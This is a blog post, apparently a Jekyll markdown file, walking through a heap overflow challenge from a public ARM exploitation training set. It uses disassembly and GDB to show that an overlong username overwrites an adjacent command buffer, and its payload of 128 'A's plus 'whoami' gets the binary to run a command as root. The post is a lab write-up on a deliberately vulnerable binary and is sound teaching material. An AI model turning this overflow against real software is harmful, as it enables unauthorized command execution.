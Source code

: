 ```yaml
---
layout: post
title: "Basic Heap Overflow"
---
```


## Intro
I finally had some time to get back to Billy's ARM exploitation challenges found on his <a href="https://github.com/Billy-Ellis/Exploit-Challenges">github</a>. Until now, I have only really focused on the stack based vulnerabilities so I wanted to try some of his Heap based challenges. This post covers my approach to completing his 'Heap Level 1' challenge.

## The Challenge:
The first Heap challenge that he released contained a very simple heap overflow vulnerability that allows the execution of a custom system command. The following output is produced from executing the binary:

```
Garys-iPhone:/lab/rop root# ./heaplevel1 
Usage: ./heaplevel1 <username>
```

From above, we can see that the binary takes a single argument; the username. Executing the binary with a specified username executes additional code and produces different output:

```
Garys-iPhone:/lab/rop root# ./heaplevel1 test
Welcome to heaplevel1, created by @bellis1000
User: test is executing command "date"
Sun Feb 24 01:48:27 GMT 2019
```

## Inspecting the Binary
To see what's going on inside the binary, we can make use of a disassembler, for this step I used Hopper, but other tools will help accomplish the same.

Looking at the following code, we can see there are two malloc functions. As this binary was compiled for the ARM architecture, we can picture the malloc() functions and the values used within their parameters. 

``` void *malloc(size_t size) ```

In ARM, the R1 register is used to hold the value of the first parameter of a function, so from the following code we can see that the value '0x80' is moved into R1 before the malloc() function is called.

```
0000be4c         movw       r1, #0x80
0000be50         str        r0, [sp, #0x30 + var_1C]
0000be54         mov        r0, r1
0000be58         bl         imp___symbolstub1__malloc
0000be5c         movw       r1, #0x80
0000be60         str        r0, [r7, #-0x10]
0000be64         mov        r0, r1
0000be68         bl         imp___symbolstub1__malloc
```

0x80 in decimal is 128, so we know that both malloc calls pass the decimal value of 128 in as a parameter and allocate 128 bytes of heap memory.

``` malloc(128); ```

Based on the two call's occuring one after the other, both allocations will likely be next to each other within memory however we can dig deeper into this at runtime using GDB. Before we do this, there are a few more things we can do to help make our debugging a little smoother. The following list holds some points that we need to keep in mind whilst stepping through each instruction:

* 1st malloc() -> 0xbe58
* 2nd malloc() -> 0xbe68
* 1st strcpy() -> 0xbe80, loads 'date' system call into the 1st heap buffer
* 2nd strcpy() -> 0xbea0, loads the username into the 2nd heap buffer
* printf() -> 0xbec4, prints the username and target system call to use

## Runtime analysis:
Breakpoint 0xbec4
Run to it, dump registers. See that r1 is the init'd string, r2 is the username and r3 is the system call.

```
(gdb) c
Continuing.
Welcome to heaplevel1, created by @bellis1000

Breakpoint 2, 0x0000bec4 in main ()
(gdb) i r
r0             0xbfbd	49085
r1             0x14b010	1355792
r2             0x14b090	1355920
r3             0x14b090	1355920
r4             0x0	0
r5             0x0	0
r6             0x0	0
r7             0x27dff758	668989272
r8             0x27dff75c	668989276
r9             0x3a80ce30	981519920
r10            0x0	0
r11            0x0	0
r12            0x14b091	1355921
sp             0x27dff728	668989224
lr             0x38a63ddf	950418911
pc             0xbec4	48836
```

View the addresses the r1, r2 and r3 to picture the printed output.

```
(gdb) x/w 0xbfbd
0xbfbd:  "\033[36mUser: %s is executing command \"%s\"\n"
(gdb) x/w 0x14b010
0x14b010:  'A' <repeats 128 times>
(gdb) x/2w 0x14b010
0x14b010:  'A' <repeats 128 times>
0x14b091:  "ate"
```

Run it again with 128 A's and 4 B's.

```
Welcome to heaplevel1, created by @bellis1000
User: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB is executing command "BBBB"
sh: BBBB: command not found
```

We now know that the BBBB overwrites the value stored in the address that is used during the execution of the system command.
Minus the r2 addr from r3 addr == 128 bytes, proof that the heap allocs are next to each other.

128 A's with 'whoami' == overflow into code exec

```
Breakpoint 2, 0x0000bec4 in main ()
(gdb) i r
r0             0xbfbd	49085
r1             0x155c20	1399840
r2             0x155ca0	1399968
r3             0x155ca0	1399968
```

```
(gdb) x/10w 0x155c20
0x155c20:  'A' <repeats 128 times>, "whoami"
```

```
(gdb) c
Continuing.
User: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAwhoami is executing command "whoami"
root
```

## Conclusion and my thoughts:


I would be interested to hear feedback about this technique and whether or not there are further ways to increase the reliability of the results as well as maintaining the speed. Let me know your thoughts on twitter.

Thanks for reading.

